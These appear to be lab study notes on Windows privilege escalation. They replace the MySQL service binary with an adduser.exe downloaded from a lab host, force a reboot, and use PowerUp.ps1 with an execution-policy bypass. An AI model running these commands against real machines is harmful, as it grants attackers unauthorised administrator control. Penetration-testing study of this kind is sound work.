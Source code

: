 ```bash
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

Now you need to restart the service. You can try this command first, though it will likely fail.

```bash
net stop mysqld
```

If the service Startup Type is set to "Automatic", we may be able to restart the service by rebooting the machine.

Here's how you check:

```bash
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

In order to issue a reboot, our user needs to have the privilege SeShutDownPrivilege assigned. We can use whoami with /priv to get a list of all privileges.

```bash
whoami /priv
```

If you have the SeShutDownPrivilege, then restart the computer. 

```bash
shutdown /r /t 0 /f
# as alternative
shutdown -r -t 1 /f
# powershell
Restart-Computer -Force
```

Once you're back, confirm that everything went as planned.

```bash
Get-LocalGroupMember administrators
```

We can now use *RunAs* to obtain an interactive shell. In addition, we could also use msfvenom to create an executable file, starting a reverse shell.

If you run into trouble after priv escing, try running a powershell and cmd prompt as an administrator from the get. 

#### PowerUp.ps1 (Automated Alternative)

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```

```bash
# Upload the file
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1

# This function displays services the current user can modify, such as the service binary or configuration files.
Get-ModifiableServiceFile -Verbose
Invoke-AllChecks -Verbose
```
